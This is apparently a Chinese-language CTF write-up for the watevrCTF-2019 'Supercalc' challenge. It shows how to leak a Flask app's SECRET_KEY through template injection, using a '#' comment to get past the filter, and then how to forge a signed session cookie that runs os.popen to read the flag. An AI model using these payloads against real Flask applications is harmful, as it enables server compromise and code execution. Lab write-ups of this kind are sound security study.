 # \[watevrCTF-2019]Supercalc

## \[watevrCTF-2019]Supercalc

## 考点

* Flask SSTI获取config
* Flask SSTI使用注释绕过，`#`绕过

## wp

输入`9*9`发现会回显

![](<../../.gitbook/assets/image (1) (1).png>)

返回包会设置新的cookie

![](<../../.gitbook/assets/image (24).png>)

解密cookie

```
flask-unsign.exe --decode --cookie .eJyrVsrILC7JL6pUsoquVkrOT0lVslKyVNBSsFSq1SEoEFsLAHINEiw.Ympom w.4lGVLm2AEMchuz70376S52EDT6M
{'history': [{'code': '9 * 9'}, {'code': '9 * 9'}, {'code': '9 * 9'}]}
```

直接输入`{{7*7}}`或者`{%print(1)%}`会提示字符错误

计算器的功能那就输入`1/0`主动构造错误输入

![](<../../.gitbook/assets/image (22).png>)

发现它是把输入直接当代码处理的，这里可以fuzz一下看看哪些字符串没过滤

输入`1/0#{{7*7}}`可以看到回显的结果

![](<../../.gitbook/assets/image (8) (1).png>)

输入输入`1/0#{{config}}`获取config

```
Config {'ENV': 'production', 'DEBUG': False, 'TESTING': False, 'PROPAGATE_EXCEPTIONS': None, 'PRESERVE_CONTEXT_ON_EXCEPTION': None, 'SECRET_KEY': 'cded826a1e89925035cc05f0907855f7', 'PERMANENT_SESSION_LIFETIME': datetime.timedelta(31), 'USE_X_SENDFILE': False, 'SERVER_NAME': None, 'APPLICATION_ROOT': '/', 'SESSION_COOKIE_NAME': 'session', 'SESSION_COOKIE_DOMAIN': False, 'SESSION_COOKIE_PATH': None, 'SESSION_COOKIE_HTTPONLY': True, 'SESSION_COOKIE_SECURE': False, 'SESSION_COOKIE_SAMESITE': None, 'SESSION_REFRESH_EACH_REQUEST': True, 'MAX_CONTENT_LENGTH': None, 'SEND_FILE_MAX_AGE_DEFAULT': datetime.timedelta(0, 43200), 'TRAP_BAD_REQUEST_ERRORS': None, 'TRAP_HTTP_EXCEPTIONS': False, 'EXPLAIN_TEMPLATE_LOADING': False, 'PREFERRED_URL_SCHEME': 'http', 'JSON_AS_ASCII': True, 'JSON_SORT_KEYS': True, 'JSONIFY_PRETTYPRINT_REGULAR': False, 'JSONIFY_MIMETYPE': 'application/json', 'TEMPLATES_AUTO_RELOAD': None, 'MAX_COOKIE_SIZE': 4093}
```

题目把cookie中的code执行了，修改为Python代码

```
flask-unsign.exe --secret "cded826a1e89925035cc05f0907855f7" --sign --cookie "{'history': [{'code': '__import__(\"os\").popen(\"cat flag.txt\").read()'}]}"
```

结果`eyJoaXN0b3J5IjpbeyJjb2RlIjoiX19pbXBvcnRfXyhcIm9zXCIpLnBvcGVuKFwiY2F0IGZsYWcudHh0XCIpLnJlYWQoKSJ9XX0.YmpyRw.x1LGNmBA3XHPATpHZDhGadZOoNA`

![](<../../.gitbook/assets/image (34).png>)
